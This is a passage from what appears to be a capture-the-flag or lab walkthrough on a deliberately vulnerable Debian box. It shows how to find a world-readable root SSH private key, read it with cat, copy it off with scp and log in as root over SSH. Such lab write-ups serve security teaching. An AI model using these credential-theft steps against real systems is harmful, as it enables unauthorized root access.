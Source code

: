**Explanation:**  
The file `root_key` is present in the `.ssh` directory. The `rw-r--r--` permissions indicate that the file is readable by everyone, which is a significant security risk since this file appears to be a private SSH key.

### Step 4: Analyzing the Private SSH Key

Inspect the contents of the `root_key` file to confirm it is an SSH private key:

```bash
cat /.ssh/root_key
```

**Sample Output:**

```bash
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3IIf6Wczcdm38MZ9+QADSYq9FfKfwj0mJaUteyJHWHZ3/GNm
...
-----END RSA PRIVATE KEY-----
```

**Explanation:**  
The content confirms that this is an RSA private key, likely belonging to the root user. With this key, you can authenticate as root over SSH, assuming SSH key authentication is enabled on the server.

### Step 5: Exploiting the Key

**1. Transfer the Key to Your Kali Box:**

You can either copy the key file directly or view the contents and manually copy/paste it to a file on your Kali machine. Ensure the file is saved as `root_key`:

```bash
scp -r user@10.10.118.70:/.ssh/root_key .
```

**2. Set the Correct Permissions:**

The SSH client will refuse to use the key unless it has the correct permissions:

```bash
chmod 600 root_key
```

**3. Use the Key to Login as Root:**

Login to the Debian VM using the private key. Note that due to the age of the box, you may need to specify additional SSH options:

```bash
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@MACHINE_IP
```

**Sample Output:**

```bash
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
...
root@debian:~# id
uid=0(root) gid=0(root) groups=0(root)
```
